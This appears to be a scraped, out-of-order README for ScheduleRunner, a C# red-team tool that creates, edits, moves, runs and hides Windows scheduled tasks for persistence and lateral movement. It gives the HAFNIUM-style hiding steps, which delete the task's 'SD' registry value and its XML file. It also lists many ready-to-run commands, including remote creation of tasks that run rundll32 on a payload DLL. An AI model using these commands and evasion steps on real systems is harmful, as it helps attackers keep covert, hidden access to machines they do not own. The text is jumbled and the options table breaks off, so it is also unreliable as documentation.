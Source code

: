 **Query details for a scheduled task called "Cleanup" under "\Microsoft\Windows\CertificateServicesClient" folder on a remote server**
----
1. Delete "SD" value from "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\\[task name]"
2. Delete scheduled task XML file "C:\Windows\System32\Tasks\\[task name]"
A number of C# tools were already developed to simulate the attack using scheduled task. I have been playing around with some of them but each of them has its own limitations on customizing the scheduled task. Therefore, this project aims to provide a C# tool (CobaltStrike execute-assembly friendly) to include the features that I need and provide enough flexibility on customizing the scheduled task.
In the edit functionality the CLI arguments "/folder", "/remoteserver", "/user" and "/technique" are used as expected in the other methods too.
Scheduled task is one of the most popular attack technique in the past decade and now it is still commonly used by hackers/red teamers for persistence and lateral movement. 
The task will continue to run util next system reboot even if the task is deleted via registry. Therefore, it is better not to use this technique in server for your operation.
This technique was used by threat actor - HAFNIUM and discovered by Microsoft recently. It aims to make the scheduled task unqueriable by tools and unseeable by Task Scheduler.
To remove scheduled task that is created using this technique require to add "/technique:hide" in the delete method to remove it properly.
To use this technique, you are required to have "NT AUTHORITY/SYSTEM" and ScheduleRunner will do the following for you:
[*] are mandatory fields.
`ScheduleRunner.exe /method:create /taskname:Cleanup /trigger:daily /starttime:23:30 /program:calc.exe /description:"Some description" /author:netero1010 /technique:hide`
`ScheduleRunner.exe /method:create /taskname:Cleanup /trigger:daily /starttime:23:30 /program:calc.exe /description:"Some description" /author:netero1010`
`ScheduleRunner.exe /method:create /taskname:Cleanup /trigger:hourly /modifier:4 /program:rundll32.exe /argument:c:\temp\payload.dll /remoteserver:TARGET-PC01`
`ScheduleRunner.exe /method:delete /taskname:Cleanup /technique:hide`
`ScheduleRunner.exe /method:delete /taskname:Cleanup`
`ScheduleRunner.exe /method:edit /taskname:test /program:calc.exe /argument:"-m 1" /oldaction:"C:\Windows\notepad.exe"`
`ScheduleRunner.exe /method:edit /taskname:test /program:calc.exe /argument:"-m 1" /order:1 /trigger:onlogon`
`ScheduleRunner.exe /method:edit /taskname:test /program:calc.exe /argument:"-m 1" /order:1`
`ScheduleRunner.exe /method:edit /taskname:test /program:calc.exe /argument:"-m 1"`
`ScheduleRunner.exe /method:edit /taskname:test /program:calc.exe /oldaction:"C:\Windows\notepad.exe"`
`ScheduleRunner.exe /method:edit /taskname:test /program:calc.exe /order:1`
`ScheduleRunner.exe /method:edit /taskname:test /program:calc.exe`
`ScheduleRunner.exe /method:move /taskname:Demo /remoteserver:TARGET-PC01 /program:rundll32.exe /argument:c:\temp\payload.dll /user:netero1010`
`ScheduleRunner.exe /method:query /folder:\Microsoft\Windows\CertificateServicesClient /remoteserver:TARGET-PC01`
`ScheduleRunner.exe /method:query /taskname:Cleanup /folder:\Microsoft\Windows\CertificateServicesClient /remoteserver:TARGET-PC01`
`ScheduleRunner.exe /method:queryfolders`
`ScheduleRunner.exe /method:run /taskname:Cleanup`
|  Method | Function  |
| ------------ | ------------ |
| ---------------- | ---------------- |
| /argument | Specify the command line argument for the program |
| /author | Specify the author of the scheduled task |
| /description | Specify the description for the scheduled task |
| /folder | Specify the folder where the scheduled task stores (default: \\) |
| /modifier | Specify how often the task runs within its schedule type. Applicable only for schedule type such as "minute" (e.g., 1-1439 minutes), "hourly" (e.g., 1-23 hours) and "weekly" (e.g., mon,sat,sun) |
| /oldaction | Specify the old program that will be replaced with program |